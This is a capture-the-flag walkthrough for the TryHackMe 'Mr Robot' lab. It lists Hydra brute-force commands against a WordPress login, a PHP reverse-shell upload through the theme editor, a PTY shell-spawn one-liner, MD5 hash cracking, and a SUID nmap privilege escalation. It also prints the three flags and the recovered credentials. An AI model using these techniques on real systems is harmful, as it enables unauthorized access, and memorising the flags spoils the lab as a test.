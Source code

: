 Room: Mr Robot CTF

Link: https://tryhackme.com/room/mrrobot

MACHINE IP: 10.10.72.216
   
   NMAP SCAN RESULTS:
     
     22 CLOSED  SSH
     80 OPEN    HTTP
     443 OPEN   SSL/HTTP

 DIRECTORY SCAN RESULTS:
    
    ==> DIRECTORY: http://10.10.72.216/Image/                                                                                   
    ==> DIRECTORY: http://10.10.72.216/images/

#KEY 1
 Just a random guess to check out the robots.txt file and we found a key. 
  http://machine ip/robots.txt.
  
  Content of robot.txt file:
     
     User-agent: *
     fsocity.dic
     key-1-of-3.txt
  wget the files fsocity.dic and key file.
  Opening the key file we have here our key 1.
  KEY 1: 073403c8a58a1f80d943455fb30724b9


 Now let's hunt for key 2.

     wget http://10.10.72.216/fsocity.dic
     now we use command:  sort fsocity.dic | uniq > sorted.dic
     Sorting the list will make it easier for bruteforcing and take less time.

Running the bruforece on the login page via hydra and keeping the password constant so that we can find the username.
     
     hydra -L /home/ghost/tryhackme/mrrobot/fsocitydic -p test machine ip http-post-form "/wp login.php:log=^USER^&PWD=^PWD^:Invalid Username" -t 30

 By bruteforce we find the username is: Elliot

Now, password bruteforce

    hydra -l Elliot -P /home/ghost/tryhackme/mrrobot/fsocity.dic 10.10.173.126 http-post-form "/wp login.php:log=^USER^&PWD=^PWD^:The password you entered for the username" -t 30

FINALLY GOT THE PASSWORD:  ER28-0652

After logging in via the credentials
go to archive.php in appereance section and
upload the reverse shell php script

GO TO THIS URL TO RUN THE SCRIPT:  
 http://machine-ip/wp-content/themes/twentyfifteen/archive.php
Then you will get a reverse shell on your terminal.

 After getting the reverse shell we move to home/robot
 content of robot directory:
    key-2-of-3.txt
    password.raw-md5

 We can't read the txt file
 Reading the contents of passwd file: robot:c3fcd3d76192e4007dfb496cca67e13b
 After cracking the hash we get: abcdefghijklmnopqrstuvwxyz

 Now try to access on robot user and switching to robot user we can not open terminal from /bin/sh –i

 For terminal access now using here python shell spawning script.
  python -c 'import pty; pty.spawn("/bin/bash")'
AFTER THIS: su robot
entering the password we got from decrypting md5 hash.

      We found KEY 2: 822c73956184f694993bede3eb39f959

Now looking for third no. of key,for that switching to root and for root will perform privilege escalation ,

For that figure out which programs have SUID (set owner user id upon execution) of 4000 , so here we run find command
  find / -perm /4000 -print 2>/dev/null
 Since nmap is given in question hint and it is running as root.
 Check the version of nmap 
    nmap --version (since it is very old in this machine it can be exploited)
  
  run nmap in interactive mode 
  nmap --interactive
  and then nmap> !sh 
  
  BAM! YOU GOT THE ROOT SHELL. 
  Go to the root directory and grab the key!
      
      Key 3: 04787ddef27c3dee1ee161b21670b4e4


